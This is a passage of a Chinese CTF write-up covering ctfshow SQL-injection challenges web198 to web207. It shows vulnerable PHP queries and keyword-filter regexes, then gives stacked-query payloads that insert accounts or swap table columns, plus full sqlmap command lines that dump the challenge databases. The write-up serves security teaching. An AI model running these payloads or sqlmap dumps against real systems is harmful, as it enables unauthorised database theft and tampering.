<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪,不会又双叒叕被一血了吧</span></span><br><span class="line"><span class="keyword">if</span>(<span class="string">&#x27;/\*|\#|\-|\x23|\&#x27;|\&quot;|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="number">0</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&quot;登陆成功 flag is <span class="subst">$flag</span>&quot;</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-101"><a href="#解题-101" class="headerlink" title="解题"></a>解题</h2><h3 id="方法1-非预期show和泄密账户登录"><a href="#方法1-非预期show和泄密账户登录" class="headerlink" title="方法1 非预期show和泄密账户登录"></a>方法1 非预期show和泄密账户登录</h3><p>show的方式</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username:<span class="number">0</span>;<span class="keyword">show</span> tables</span><br><span class="line">password:ctfshow_user</span><br></pre></td></tr></table></figure>

<p>泄密账户的方式</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username:<span class="number">0</span></span><br><span class="line">password:passwordAUTO</span><br></pre></td></tr></table></figure>

<h3 id="方法2-直接插入账密获取flag"><a href="#方法2-直接插入账密获取flag" class="headerlink" title="方法2 直接插入账密获取flag"></a>方法2 直接插入账密获取flag</h3><p>上道题目有一种方法是忽略init直接插入数据，这个当然也是可以的。或者说，插入新的账户密码就能获取flag。</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username: <span class="number">0</span>;<span class="keyword">insert</span> ctfshow_user (`username`,`pass`)<span class="keyword">value</span>(<span class="number">55</span>,<span class="number">56</span>)</span><br><span class="line">password: <span class="number">0</span></span><br><span class="line"># 插入完成后使用这种方式进行登录</span><br><span class="line">username: <span class="number">55</span></span><br><span class="line">password: <span class="number">56</span></span><br></pre></td></tr></table></figure>

<h3 id="方法3-修改字段名"><a href="#方法3-修改字段名" class="headerlink" title="方法3 修改字段名"></a>方法3 修改字段名</h3><p>目的是交换下 <code>username</code> 和 <code>pass</code> .</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `username` `pass2` <span class="type">varchar</span>(<span class="number">100</span>);</span><br><span class="line"><span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `pass` `username` <span class="type">varchar</span>(<span class="number">100</span>);</span><br><span class="line"><span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `pass2` `pass` <span class="type">varchar</span>(<span class="number">100</span>);</span><br></pre></td></tr></table></figure>

<p>对应的payload如下：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username: <span class="number">0</span>;<span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `username` `pass2` <span class="type">varchar</span>(<span class="number">100</span>);<span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `pass` `username` <span class="type">varchar</span>(<span class="number">100</span>);<span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `pass2` `pass` <span class="type">varchar</span>(<span class="number">100</span>)</span><br><span class="line">password: <span class="number">0</span></span><br><span class="line"># 实现username字段和pass字段互相交换后，可以利用已经泄露的用户名进行登录</span><br><span class="line"># 注意，交换后用户名就是密码，密码就是用户名</span><br><span class="line">username: <span class="number">0</span></span><br><span class="line">password: userAUTO # 这个是前期泄露的用户名</span><br></pre></td></tr></table></figure>


<h1 id="web199"><a href="#web199" class="headerlink" title="web199"></a>web199</h1><h2 id="原始信息-107"><a href="#原始信息-107" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = <span class="subst">&#123;$username&#125;</span>;&quot;</span>;   </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪,不会又双叒叕被一血了吧</span></span><br><span class="line"><span class="keyword">if</span>(<span class="string">&#x27;/\*|\#|\-|\x23|\&#x27;|\&quot;|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="number">0</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&quot;登陆成功 flag is <span class="subst">$flag</span>&quot;</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-102"><a href="#解题-102" class="headerlink" title="解题"></a>解题</h2><p>这次过滤了非常关键的 <code>(</code> ,但是某些非预期的操作依然行得通。</p>
<h3 id="方法1-非预期show和泄密账户登录-1"><a href="#方法1-非预期show和泄密账户登录-1" class="headerlink" title="方法1 非预期show和泄密账户登录"></a>方法1 非预期show和泄密账户登录</h3><p>show的方式</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username:<span class="number">0</span>;<span class="keyword">show</span> tables</span><br><span class="line">password:ctfshow_user</span><br></pre></td></tr></table></figure>

<p>泄密账户的方式</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username:<span class="number">0</span></span><br><span class="line">password:passwordAUTO</span><br></pre></td></tr></table></figure>

<h3 id="方法2-修改字段名"><a href="#方法2-修改字段名" class="headerlink" title="方法2 修改字段名"></a>方法2 修改字段名</h3><p>由于括号被限制了，使用数据类型 <code>text</code> 去代替原本的 <code>varchar(100)</code> ，绕过对括号的限制。</p>
<p>稍微修改上面payload即可：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username: <span class="number">0</span>;<span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `username` `pass2` text;<span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `pass` `username` text;<span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `pass2` `pass` text</span><br><span class="line">password: <span class="number">0</span></span><br><span class="line"># 实现username字段和pass字段互相交换后，可以利用已经泄露的用户名进行登录</span><br><span class="line"># 注意，交换后用户名就是密码，密码就是用户名</span><br><span class="line">username: <span class="number">0</span></span><br><span class="line">password: userAUTO # 这个是前期泄露的用户名</span><br></pre></td></tr></table></figure>

<h2 id="总结-9"><a href="#总结-9" class="headerlink" title="总结"></a>总结</h2><p>无括号的 <code>sql</code> 数据类型： <code>text</code> .</p>
<h1 id="web200"><a href="#web200" class="headerlink" title="web200"></a>web200</h1><h2 id="原始信息-108"><a href="#原始信息-108" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = <span class="subst">&#123;$username&#125;</span>;&quot;</span>;   </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪,不会又双叒叕被一血了吧</span></span><br><span class="line"><span class="keyword">if</span>(<span class="string">&#x27;/\*|\#|\-|\x23|\&#x27;|\&quot;|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(|\,/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="number">0</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&quot;登陆成功 flag is <span class="subst">$flag</span>&quot;</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-103"><a href="#解题-103" class="headerlink" title="解题"></a>解题</h2><p>过滤增加了个括号，可以使用上面一题的payload。</p>
<h3 id="方法1-非预期show和泄密账户登录-2"><a href="#方法1-非预期show和泄密账户登录-2" class="headerlink" title="方法1 非预期show和泄密账户登录"></a>方法1 非预期show和泄密账户登录</h3><p>show的方式</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username:<span class="number">0</span>;<span class="keyword">show</span> tables</span><br><span class="line">password:ctfshow_user</span><br></pre></td></tr></table></figure>

<p>泄密账户的方式</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username:<span class="number">0</span></span><br><span class="line">password:passwordAUTO</span><br></pre></td></tr></table></figure>

<h3 id="方法2-修改字段名-1"><a href="#方法2-修改字段名-1" class="headerlink" title="方法2 修改字段名"></a>方法2 修改字段名</h3><figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">username: <span class="number">0</span>;<span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `username` `pass2` text;<span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `pass` `username` text;<span class="keyword">alter</span> <span class="keyword">table</span> ctfshow_user change `pass2` `pass` text</span><br><span class="line">password: <span class="number">0</span></span><br><span class="line"># 实现username字段和pass字段互相交换后，可以利用已经泄露的用户名进行登录</span><br><span class="line"># 注意，交换后用户名就是密码，密码就是用户名</span><br><span class="line">username: <span class="number">0</span></span><br><span class="line">password: userAUTO # 这个是前期泄露的用户名</span><br></pre></td></tr></table></figure>

<h1 id="web201–sqlmap"><a href="#web201–sqlmap" class="headerlink" title="web201–sqlmap"></a>web201–sqlmap</h1><h2 id="原始信息-109"><a href="#原始信息-109" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de"> sqlmap最新版下载</a></p>
<p> 使用–user-agent 指定agent</p>
<p> 使用–referer 绕过referer检查</p>
<p>难度系数 </p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27;;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-104"><a href="#解题-104" class="headerlink" title="解题"></a>解题</h2><p>题目提示了两个参数，测试后对应的sqlmap命令是这样的：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://xxxx.ctf.show/api/?id=1&amp;page=1&amp;limit=10&quot;</span> --user-agent=sqlmap --referer=ctf.show</span><br></pre></td></tr></table></figure>

<p>如果想要进一步测试参数可以修改为：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://xxxx.ctf.show/api/?id=1&amp;page=1&amp;limit=10&quot;</span> -p <span class="built_in">id</span> --dbs --user-agent=sqlmap --referer=ctf.show</span><br></pre></td></tr></table></figure>

<p>指定ip这个参数去爆破的意思，爆破数据库库名。</p>
<p>下面是完整的，爆破库、表、列值：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://29c993d5-706b-4205-8ada-11dd3f81deef.challenge.ctf.show/api/?id=1&amp;page=1&amp;limit=10&quot;</span> -p <span class="built_in">id</span> -D ctfshow_web -T ctfshow_user -C pass --dump --user-agent=sqlmap --referer=ctf.show</span><br></pre></td></tr></table></figure>

<p>把参数稍微分割下就是：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap </span><br><span class="line"><span class="comment"># 指定网址</span></span><br><span class="line">-u <span class="string">&quot;http://29c993d5-706b-4205-8ada-11dd3f81deef.challenge.ctf.show/api/?id=1&amp;page=1&amp;limit=10&quot;</span> </span><br><span class="line">-p <span class="built_in">id</span> <span class="comment"># 指定爆破参数为id</span></span><br><span class="line">-D ctfshow_web  <span class="comment"># 指定库</span></span><br><span class="line">-T ctfshow_user <span class="comment"># 指定表</span></span><br><span class="line">-C pass --dump 	<span class="comment"># 指定列 获取值 </span></span><br><span class="line">--user-agent=sqlmap <span class="comment"># 指定UA</span></span><br><span class="line">--referer=ctf.show  <span class="comment"># 指定来源url</span></span><br></pre></td></tr></table></figure>

<p>同样的，可以使用python的其它脚本进行爆破，但是这题的考点是sqlmap，推荐使用吧。</p>
<h1 id="web202"><a href="#web202" class="headerlink" title="web202"></a>web202</h1><h2 id="原始信息-110"><a href="#原始信息-110" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de"> sqlmap最新版下载</a></p>
<p> 使用–data 调整sqlmap的请求方式</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27;;&quot;</span>;  </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-105"><a href="#解题-105" class="headerlink" title="解题"></a>解题</h2><p>同样是sqlmap，两种处理方式：</p>
<h3 id="方法1-1"><a href="#方法1-1" class="headerlink" title="方法1"></a>方法1</h3><p>BP截取下POST数据包：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">POST /api/ HTTP/1.1</span><br><span class="line">Host: a8e49a84-6eb2-4340-beea-4a6855277ad2.challenge.ctf.show</span><br><span class="line">User-Agent: sqlmap</span><br><span class="line">Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8</span><br><span class="line">Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2</span><br><span class="line">Accept-Encoding: gzip, deflate</span><br><span class="line">Content-Type: application/x-www-form-urlencoded</span><br><span class="line">Content-Length: 20</span><br><span class="line">Origin: http://a8e49a84-6eb2-4340-beea-4a6855277ad2.challenge.ctf.show</span><br><span class="line">Connection: close</span><br><span class="line">Referer: ctf.show</span><br><span class="line">Upgrade-Insecure-Requests: 1</span><br><span class="line"></span><br><span class="line"><span class="built_in">id</span>=1&amp;page=1&amp;<span class="built_in">limit</span>=10</span><br></pre></td></tr></table></figure>

<p>使用sqlmap一把梭：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">┌──(kali㉿kali)-[~]</span><br><span class="line">└─$ sqlmap -r post.txt  -p <span class="built_in">id</span> -D ctfshow_web -T ctfshow_user --dump --referer=ctf.show --user-agent=sqlmap</span><br></pre></td></tr></table></figure>

<h3 id="方法2-1"><a href="#方法2-1" class="headerlink" title="方法2"></a>方法2</h3><figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://xxx.xxx.xxx/api&quot;</span> --data <span class="string">&quot;id=1&quot;</span> -p <span class="built_in">id</span> -D ctfshow_web -T ctfshow_user --dump --referer=ctf.show --user-agent=sqlmap</span><br></pre></td></tr></table></figure>

<p>还有一种办法是自己写脚本。</p>
<p>多了：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">--data <span class="string">&quot;id=1&quot;</span>		<span class="comment">#指定Post数据</span></span><br></pre></td></tr></table></figure>


<h1 id="web203"><a href="#web203" class="headerlink" title="web203"></a>web203</h1><h2 id="原始信息-111"><a href="#原始信息-111" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de"> sqlmap最新版下载</a></p>
<p> 使用–method 调整sqlmap的请求方式</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27;;&quot;</span>;  </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-106"><a href="#解题-106" class="headerlink" title="解题"></a>解题</h2><p>使用sqlmap进行爆破，相比于上面的请求方式，需要添加两个新的方法：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">--header=Content-Type:text/plain <span class="comment"># 指定文件头</span></span><br><span class="line">--metnod=PUT				   <span class="comment"># 指定请求方式</span></span><br></pre></td></tr></table></figure>

<p>整合为一句SQLmap就是：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">┌──(kali㉿kali)-[~]</span><br><span class="line">└─$ sqlmap -u <span class="string">&quot;http://0b07b09a-9785-4cac-a039-53f1e8295f08.challenge.ctf.show/api/index.php&quot;</span> --data <span class="string">&quot;id=1&quot;</span> --method=PUT --header=Content-Type:text/plain --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_user --dump</span><br></pre></td></tr></table></figure>


<h1 id="web204"><a href="#web204" class="headerlink" title="web204"></a>web204</h1><h2 id="原始信息-112"><a href="#原始信息-112" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de">sqlmap最新版下载</a></p>
<p> 使用–cookie 提交cookie数据</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27;;&quot;</span>;  </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-107"><a href="#解题-107" class="headerlink" title="解题"></a>解题</h2><p>这道题目提示的是cookie，需要在浏览器打开题目后F12查看当前网页的cookie是什么，然后放入参数。下面是参考payload：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://0f335128-02ea-429c-af84-331cace9914f.challenge.ctf.show/api/index.php&quot;</span> --data <span class="string">&quot;id=1&quot;</span> --referer=ctf.show --method=PUT --user-agent=sqlmap --cookie=<span class="string">&quot;ctfshow=3e4c54cd5f517bba55ffaddfdce4fb81;PHPSESSID=hhj55l030o8mt315pl3aj31b7c&quot;</span> --header=Content-Type:text/plain -D ctfshow_web -T ctfshow_user --dump</span><br></pre></td></tr></table></figure>

<p>拆解：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://0f335128-02ea-429c-af84-331cace9914f.challenge.ctf.show/api/index.php&quot;</span> </span><br><span class="line">--data <span class="string">&quot;id=1&quot;</span> </span><br><span class="line">--referer=ctf.show </span><br><span class="line">--method=PUT </span><br><span class="line">--user-agent=sqlmap </span><br><span class="line">--cookie=<span class="string">&quot;ctfshow=3e4c54cd5f517bba55ffaddfdce4fb81;PHPSESSID=hhj55l030o8mt315pl3aj31b7c&quot;</span> </span><br><span class="line">--header=Content-Type:text/plain </span><br><span class="line">-D ctfshow_web </span><br><span class="line">-T ctfshow_user </span><br><span class="line">--dump</span><br></pre></td></tr></table></figure>

<p>多了：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">--cookie=<span class="string">&quot;ctfshow=3e4c54cd5f517bba55ffaddfdce4fb81;PHPSESSID=hhj55l030o8mt315pl3aj31b7c&quot;</span> </span><br></pre></td></tr></table></figure>


<h1 id="web205"><a href="#web205" class="headerlink" title="web205"></a>web205</h1><h2 id="原始信息-113"><a href="#原始信息-113" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de">sqlmap最新版下载</a></p>
<p> api调用需要鉴权</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27;;&quot;</span>;  </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-108"><a href="#解题-108" class="headerlink" title="解题"></a>解题</h2><p>对应的payload：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://6b7926c1-8d39-4a2d-87b7-84b9f0513639.challenge.ctf.show/api/index.php&quot;</span> --data <span class="string">&quot;id=1&quot;</span> --safe-url=<span class="string">&quot;http://6b7926c1-8d39-4a2d-87b7-84b9f0513639.challenge.ctf.show/api/getToken.php&quot;</span> --safe-freq=1 --referer=ctf.show --method=PUT --user-agent=sqlmap --cookie=<span class="string">&quot;PHPSESSID=kf2gjjekolf3p2pv5ocg8cphfi&quot;</span> --header=Content-Type:text/plain -D ctfshow_web -T ctfshow_flax --dump</span><br></pre></td></tr></table></figure>

<p>拆解：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://6b7926c1-8d39-4a2d-87b7-84b9f0513639.challenge.ctf.show/api/index.php&quot;</span> </span><br><span class="line">--data <span class="string">&quot;id=1&quot;</span> </span><br><span class="line">--safe-url=<span class="string">&quot;http://6b7926c1-8d39-4a2d-87b7-84b9f0513639.challenge.ctf.show/api/getToken.php&quot;</span> </span><br><span class="line">--safe-freq=1 </span><br><span class="line">--referer=ctf.show </span><br><span class="line">--method=PUT </span><br><span class="line">--user-agent=sqlmap </span><br><span class="line">--cookie=<span class="string">&quot;PHPSESSID=kf2gjjekolf3p2pv5ocg8cphfi&quot;</span> </span><br><span class="line">--header=Content-Type:text/plain </span><br><span class="line">-D ctfshow_web -T ctfshow_flax </span><br><span class="line">--dump</span><br></pre></td></tr></table></figure>

<p>多了：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 1次访问鉴权链接</span></span><br><span class="line">--safe-url=<span class="string">&quot;http://6b7926c1-8d39-4a2d-87b7-84b9f0513639.challenge.ctf.show/api/getToken.php&quot;</span> </span><br><span class="line">--safe-freq=1 </span><br></pre></td></tr></table></figure>


<h1 id="web206"><a href="#web206" class="headerlink" title="web206"></a>web206</h1><h2 id="原始信息-114"><a href="#原始信息-114" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de"> sqlmap最新版下载</a></p>
<p> sql需要闭合</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,pass from ctfshow_user where id = (&#x27;&quot;</span>.<span class="variable">$id</span>.<span class="string">&quot;&#x27;) limit 0,1;&quot;</span>;  </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-109"><a href="#解题-109" class="headerlink" title="解题"></a>解题</h2><p>这次是sql注入的语句变了。</p>
<p>给它设置了单引号和括号作为限制，这次的注入如下：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://ccf647f6-d7b8-4b99-b851-2b4ca36c1c41.challenge.ctf.show/api/index.php&quot;</span> --data=<span class="string">&quot;id=1&quot;</span> -p <span class="built_in">id</span> --referer=ctf.show --user-agent=sqlmap --method=PUT --safe-url=<span class="string">&quot;http://ccf647f6-d7b8-4b99-b851-2b4ca36c1c41.challenge.ctf.show/api/getToken.php&quot;</span> --safe-freq=1 --cookie=<span class="string">&quot;PHPSESSID=oc1jea9u755ggv85tnqcf453pp&quot;</span> --header=Content-Type:text/plain --prefix=<span class="string">&quot;&#x27;)&quot;</span> --suffix=<span class="string">&quot;#&quot;</span> -D ctfshow_web -T ctfshow_flaxc --dump</span><br></pre></td></tr></table></figure>

<p>拆解：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://ccf647f6-d7b8-4b99-b851-2b4ca36c1c41.challenge.ctf.show/api/index.php&quot;</span> </span><br><span class="line">--data=<span class="string">&quot;id=1&quot;</span> </span><br><span class="line">-p <span class="built_in">id</span> </span><br><span class="line">--referer=ctf.show </span><br><span class="line">--user-agent=sqlmap </span><br><span class="line">--method=PUT </span><br><span class="line">--safe-url=<span class="string">&quot;http://ccf647f6-d7b8-4b99-b851-2b4ca36c1c41.challenge.ctf.show/api/getToken.php&quot;</span> </span><br><span class="line">--safe-freq=1 -</span><br><span class="line">-cookie=<span class="string">&quot;PHPSESSID=oc1jea9u755ggv85tnqcf453pp&quot;</span> </span><br><span class="line">--header=Content-Type:text/plain </span><br><span class="line">--prefix=<span class="string">&quot;&#x27;)&quot;</span> </span><br><span class="line">--suffix=<span class="string">&quot;#&quot;</span> </span><br><span class="line">-D ctfshow_web -T ctfshow_flaxc --dump</span><br></pre></td></tr></table></figure>

<p>新增的参数：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">--prefix=<span class="string">&quot;&#x27;&#x27;)&quot;</span>		<span class="comment">#注入句子的前缀，也就是左边部分的闭合</span></span><br><span class="line">--suffix=<span class="string">&quot;#&quot;</span>		<span class="comment">#注入句子的后缀，也就是右边句子的闭合</span></span><br></pre></td></tr></table></figure>

<blockquote>
<p> 注：基本上是先查表，再查值，不是凭空有表的。</p>
<p>可以使用 <code>-D ctfshow_web --tables</code> 查出表。</p>
</blockquote>
<h1 id="web207"><a href="#web207" class="headerlink" title="web207"></a>web207</h1><h2 id="原始信息-115"><a href="#原始信息-115" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de">sqlmap最新版下载</a></p>
<p>–tamper 的初体验</p>
<p>查询语句</p>
